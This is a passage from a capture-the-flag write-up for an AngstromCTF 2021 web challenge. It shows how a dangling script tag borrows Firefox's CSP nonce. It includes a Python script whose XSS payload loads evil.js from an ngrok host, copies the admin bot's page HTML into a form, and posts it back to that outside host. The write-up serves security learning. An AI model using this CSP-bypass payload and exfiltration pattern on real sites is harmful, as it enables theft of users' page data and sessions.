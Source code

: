 So we know the bot uses `Firefox/89.0` as a browser. Let's try some basic script injection XSS by submitting the following payload and by trying to see it in our Firefox browser.
 ```python
data = {"score" : "123", "name" : '<script>alert(1)</script>'}
```
![angstrom_ctf](/assets/img/AngstromCTF_2021/web_4.jpeg)
Hmm, seems like the CSP is blocking our script's execution. This happens because we didn't provide a valid nonce for the script tag hence the browser refuses to execute it. After some research I found [this post](https://krial057.github.io/blog/own-xss-challenge) explaining why using `<script src=//evil.com/script.js` can work in our case. Basically, as the XSS sink point is printed on the page just before the valid `<script nonce={nonce}>` tag, if we inject `<script attr=value attr=value ...` without closing the tag, firefox reuses the nonce from the script tag situated immediately after our payload.
![angstrom_ctf](/assets/img/AngstromCTF_2021/web_5.jpeg)
That's some good news for us as it gives us carte blanche on what we can execute on the bot's browser. We can use the following script to setup a form with a single input, set it's value to admin's page html document and send it back to our local server.
```python
#!/usr/bin/python
import requests
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
import re

data = {"score" : "123", "name" : '<form id="myform" action="https://8c68790a251f.ngrok.io/done" method="POST"><input id="myinput" name="data" value="test_value"/></form><script src="https://8c68790a251f.ngrok.io/evil.js" '}

# == Contents off evil.js ===
# document.getElementById('myinput').value = document.documentElement.innerHTML;
# document.getElementById("myform").submit();

# record score and get share token
r = requests.post('http://nomnomnom.2021.chall.actf.co/record', json=data, verify=False)
token = re.search('\/report/([a-f0-9]{16})', r.text)[0]
token = token[-16:]
print(token)

# report
r = requests.post("http://nomnomnom.2021.chall.actf.co/report/{}".format(token), verify=False)
```